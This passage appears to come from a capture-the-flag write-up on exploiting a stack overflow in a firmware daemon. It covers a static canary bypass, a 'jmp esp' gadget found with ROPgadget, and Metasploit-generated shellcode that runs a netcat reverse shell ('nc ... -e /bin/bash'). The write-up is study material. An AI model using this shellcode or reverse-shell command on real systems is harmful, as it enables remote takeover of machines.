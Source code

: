It appears that the canary is a static value <code>0xe4ffffe4</code>. "It's a bold strategy, Cotton. Let's see if it pays off for 'em."

First step was loading some configuration options into gdb to disable the alarm and follow the fork. I've included them for reference:

        set follow-fork-mode child
        set detach-on-fork off
        set follow-exec-mode new
        handle SIGALRM ignore

While testing the message "Canary not repaired." was firing, I was able to pinpoint the canary location at 105 characters. After setting my canary value, I ran into my next challenge: ASLR. I ended up using a common bypass technique by tracking down a "jmp esp" gadget using the tool *ROPgadget.py*:

        root@kali-32:~/Desktop# python ROPgadget/ROPgadget.py --binary \_giyh-firmware-dump.bin.extracted/squashfs-root/usr/bin/sgstatd | grep "jmp"
        0x08049365 : add bh, al ; inc ebp ; cld ; in al, -1 ; jmp esp
        0x08049363 : add byte ptr [eax], al ; add bh, al ; inc ebp ; cld ; in al, -1 ; jmp esp
        0x080493ae : add byte ptr [ebx - 0xd7e03ab], cl ; in al, -1 ; jmp esp
        0x08049368 : cld ; in al, -1 ; jmp esp
        0x08049369 : in al, -1 ; jmp esp
        0x08049367 : inc ebp ; cld ; in al, -1 ; jmp esp
        **0x0804936b : jmp esp**
        0x08048c40 : ljmp 0xd1d0011f, 0x75f8 ; add dh, bl ; ret

I fired up *metasploit* to craft my payload. Important note: I modified my output to remove the IP of my server. I don't need any copy and paste "mistakes" occurring <code> :) </code>!

{% codeblock lang:bash %}
root@kali-32:~# msfconsole
msf > use payload/linux/x86/exec
msf payload(exec) > set CMD 'nc 127.0.0.1 6666 -e /bin/bash'
CMD => nc 127.0.0.1 6666 -e /bin/bash
msf payload(exec) > generate
# linux/x86/exec - 70 bytes
# http://www.metasploit.com
# VERBOSE=false, PrependFork=false, PrependSetresuid=false,
# PrependSetreuid=false, PrependSetuid=false,
# PrependSetresgid=false, PrependSetregid=false,
# PrependSetgid=false, PrependChrootBreak=false,
# AppendExit=false, CMD=nc 127.0.0.1 6666 -e /bin/bash
buf =
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" +
"\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1f\x00\x00" +
"\x00\x6e\x63\x20\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x20" +
"\x36\x36\x36\x36\x20\x2d\x65\x20\x2f\x62\x69\x6e\x2f\x62" +
"\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80"
{% endcodeblock %}
